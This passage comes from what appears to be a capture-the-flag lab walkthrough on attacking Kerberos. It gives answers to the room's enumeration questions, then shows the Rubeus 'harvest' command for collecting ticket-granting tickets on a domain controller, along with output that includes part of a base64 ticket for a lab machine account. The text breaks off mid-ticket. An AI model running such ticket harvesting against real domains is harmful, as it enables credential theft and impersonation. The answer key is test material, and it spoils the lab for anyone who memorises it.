 
##   Answer the questions below

**How many total users do we enumerate?**

- 10

**What is the SQL service account name?**

- sqlservice

**What is the second "machine" account name?**

- machine2

**What is the third "user" account name?**

- user3

* * * 

## Task 3 - Harvesting & Brute-Forcing Tickets w/ Rubeus 

##  Harvesting Tickets w/ Rubeus 

1. Have Rubeus Comlined and on the target machine
2. ``cd Downloads`` - Navigate to the directory 
3. ``Rubeus.exe harvest /interval:30`` - Tells rubeus to harvest for TGTs every 30 seconds

```shell
controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe harvest /interval:30

   ______        _                       
  (_____ \      | |                                   
   _____) )_   _| |__  _____ _   _  ___               
  |  __  /| | | |  _ \| ___ | | | |/___)              
  | |  \ \| |_| | |_) ) ____| |_| |___ |              
  |_|   |_|____/|____/|_____)____/(___/               
                                                      
  v1.5.0                                              
                                                      
[*] Action: TGT Harvesting (with auto-renewal)        
[*] Monitoring every 30 seconds for new TGTs          
[*] Displaying the working TGT cache every 30 seconds 


[*] Refreshing TGT ticket cache (6/20/2022 11:51:18 AM) 

  User                  :  CONTROLLER-1$@CONTROLLER.LOCAL                                                
  StartTime             :  6/20/2022 11:26:37 AM                                                         
  EndTime               :  6/20/2022 9:26:37 PM                                                          
  RenewTill             :  6/27/2022 11:26:37 AM                                                         
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable               
  Base64EncodedTicket   :                                                                                
                                                                                                         
    doIFhDCCBYCgAwIBBaEDAgEWooIEeDCCBHRhggRwMIIEbKADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyiJTAjoAMCAQKhHDAaGwZr 
    cmJ0Z3QbEENPTlRST0xMRVIuTE9DQUyjggQoMIIEJKADAgESoQMCAQKiggQWBIIEEjTlK3cJIXALbz0AP/5+JKkMuwRXYj9pEwsw 
```